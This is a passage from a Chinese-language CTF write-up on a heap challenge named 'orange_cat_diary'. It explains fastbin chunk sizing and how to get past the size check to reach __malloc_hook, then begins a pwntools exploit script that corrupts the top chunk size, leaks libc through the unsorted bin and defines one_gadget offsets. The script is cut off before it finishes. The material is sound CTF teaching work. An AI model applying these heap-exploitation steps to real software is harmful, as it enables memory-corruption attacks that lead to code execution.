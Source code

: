 |fastbinY   |32位chunk_size|64位chunk_size|
|-----------|--------------|--------------|
|fastbinY[0]|0x18          |0x20          |
|fastbinY[1]|0x20          |0x30          |
|fastbinY[2]|0x28          |0x40          |
|fastbinY[3]|0x30          |0x50          |
|fastbinY[4]|0x38          |0x60          |
|fastbinY[5]|0x40          |0x70          |
|fastbinY[6]|0x48          |0x80          |

即fastbin的idx为5，对应chunk大小为0x70
当我们申请0x60到0x68字节大小的空间时，会先调用一个checked_request2size的宏转为0x70的chunk size
所以我们可以申请0x60~0x68的空间，即可绕过fastbin的检测

申请到的内存会转换为用户内存(+0x10)，所以此时__malloc_hook的位置在申请到的指针的0x13字节之后

### exp
```python
from pwn import *

p = process("./orange_cat_diary")

libc = ELF("./libc-2.23.so")

context.log_level = 'debug'

def add(size,content):
    p.sendlineafter(b'choice:',b'1')
    p.sendafter(b'content:',str(size).encode())
    p.sendafter(b'content:',content)

def show():
    p.sendlineafter(b'choice:',b'2')
    
def delete():
    p.sendlineafter(b'choice:',b'3')

def edit(size,content):
    p.sendlineafter(b'choice:',b'4')
    p.sendafter(b'content:',str(size).encode())
    p.sendafter(b'content:',content)

# gadget
one_gadget1 = 0x4527a
one_gadget2 = 0xf03a4
one_gadget3 = 0xf1247

p.sendlineafter(b"Hello, I'm delighted to meet you. Please tell me your name.",b'zzkkk1h')

#gdb.attach(p)

# 修改top chunk大小
add(0x68,b'aaaa')
edit(0x70,b'a'*0x68+p64(0xf91))

# 申请较大chunk使修改后的top chunk置入unsorted bin
add(0x1000,b'aaaa')

# 从unsorted bin中申请内存，填上8字节数据，show泄露bk指针内容，调试获取bk指针指向位置在main_arena的偏移
add(0x10,b'bbbbbbbb')
```